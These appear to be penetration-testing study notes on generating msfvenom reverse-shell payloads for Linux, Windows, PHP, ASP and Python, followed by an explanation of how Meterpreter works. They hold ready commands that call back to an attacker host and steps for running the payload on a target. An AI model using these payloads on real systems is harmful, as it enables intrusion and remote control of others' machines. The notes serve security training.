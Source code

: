 **Other Payloads**
Based on the target system's configuration (operating system, install webserver, installed interpreter, etc.), msfvenom can be used to create payloads in almost all formats. Below are a few examples you will often use:

In all these examples, LHOST will be the IP address of your attacking machine, and LPORT will be the port on which your handler will listen.  
  
Linux Executable and Linkable Format (elf)  
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`  
- The .elf format is comparable to the .exe format in Windows. These are executable files for Linux. However, you may still need to make sure they have executable permissions on the target machine. For example, once you have the shell.elf file on your target machine, use the `chmod +x shell.elf `command to accord executable permissions. Once done, you can run this file by typing `./shell.elf` on the target machine command line.  
  
Windows  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`  
  
PHP  
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`  
  
ASP  
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`  
  
Python  
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`  
  
All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.


### Meterpreter
Meterpreter is an advanced, dynamically extensible payload that is used in conjunction with the Metasploit Framework.
Meterpreter provides a powerful platform for post-exploitation tasks on compromised systems. It allows an attacker to control the compromised system remotely and perform various operations, such as executing commands, accessing files, capturing keystrokes, pivoting to other systems within a network, and much more.
##### How does it work?
Meterpreter runs on the target system but is not installed on it. It runs in memory and does not write itself to the disk on the target.

Meterpreter payloads are divided into stagged and inline versions. Meterpreter has a wide range of different versions you can choose from based on your target system.
The easiest way to have an idea about available Meterpreter versions could be to list them using msfvenom:
	`msfvenom --list <type> | grep meterpreter`
Your decision on which version of Meterpreter to use will be mostly based on three factors;
- The target operating system (Is the target operating system Linux or Windows? Is it a Mac device? Is it an Android phone? etc.)
- Components available on the target system (Is Python installed? Is this a PHP website? etc.)
- Network connection types you can have with the target system (Do they allow raw TCP connections? Can you only have an HTTPS reverse connection? Are IPv6 addresses not as closely monitored as IPv4 addresses? etc.)
